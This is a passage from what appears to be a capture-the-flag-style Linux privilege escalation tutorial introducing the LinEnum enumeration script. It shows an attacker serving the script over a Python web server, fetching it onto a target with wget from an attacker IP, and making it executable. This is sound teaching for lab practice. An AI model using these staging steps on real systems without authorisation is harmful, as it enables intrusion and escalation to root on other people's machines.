 - **Vertical privilege escalation (privilege elevation):** This is where you attempt to gain higher privileges or access with an existing account that you have already compromised. For local privilege escalation attacks, this might mean hijacking an account with administrator privileges or root privileges. [Travel up on the tree]

## Enumeration

### What is LinEnum?

LinEnum is a simple bash script that performs common commands related to privilege escalation, saving time and allowing more effort to be put toward getting root. It is important to understand what commands LinEnum executes so that you are able to manually enumerate privesc vulnerabilities in a situation where you’re unable to use LinEnum or other similar scripts. In this room, we will explain what LinEnum is showing and what commands can be used to replicate it.

### Where to get LinEnum

You can download a local copy of LinEnum from:

https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

It’s worth keeping this somewhere you’ll remember because LinEnum is an invaluable tool.

### How do I get LinEnum on the target machine?

There are two ways to get LinEnum on the target machine. The first way is to go to the directory that you have your local copy of LinEnum stored in and start a Python web server using:

```bash
python -m SimpleHTTPServer 8000
```

Then, using `wget` on the target machine, and your local IP, you can grab the file from your local machine:

```bash
wget 10.8.6.72:8000/LinEnum.sh
```

**Sample Output:**

```
--2020-03-05 05:43:45--  http://10.8.6.72:8000/LinEnum.sh
Connecting to 10.8.6.72:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh            100%[=====================>]  45.54K  273KB/s   in 0.2s    
```

Once downloaded, make the file executable using the command:

```bash
chmod +x LinEnum.sh
```

